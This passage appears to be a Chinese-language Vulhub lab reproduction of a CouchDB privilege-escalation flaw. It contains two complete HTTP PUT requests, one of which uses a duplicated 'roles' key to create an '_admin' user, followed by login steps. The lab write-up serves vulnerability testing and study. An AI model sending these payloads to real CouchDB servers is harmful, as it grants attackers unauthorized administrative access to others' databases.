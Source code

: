 ###漏洞复现

首先，发送如下数据包：
```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

> 发送包含两个`roles`的数据包，即可绕过限制：
```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

> 再次访问
```
http://your-ip:5984/_utils/
```
，输入账户密码vulhub，可以成功登录：



# [CVE-2017-12636](https://vulhub.org/#/environments/couchdb/CVE-2017-12636/)



